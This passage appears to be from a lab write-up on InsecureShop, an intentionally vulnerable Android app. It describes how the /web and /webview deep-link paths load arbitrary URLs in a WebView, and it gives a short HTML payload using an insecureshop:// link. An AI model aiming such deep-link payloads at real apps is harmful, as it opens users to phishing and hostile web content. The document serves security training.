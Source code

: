 ![WebViewActivity.class](<../../.gitbook/assets/Screenshot from 2022-05-30 10-26-52.png>)

If we look into code then we have two paths /web and /webview where input string will execute according to condition is being satisfy.&#x20;

so our exploit will be&#x20;

`<html>`

`<body><a href="insecureshop://com.insecureshop/web?url=http://bing.com">Start Attack</a>`

`</body>`

`<html>`

![Loading Arbitary sites.](<../../.gitbook/assets/ezgif.com-gif-maker (1).gif>)

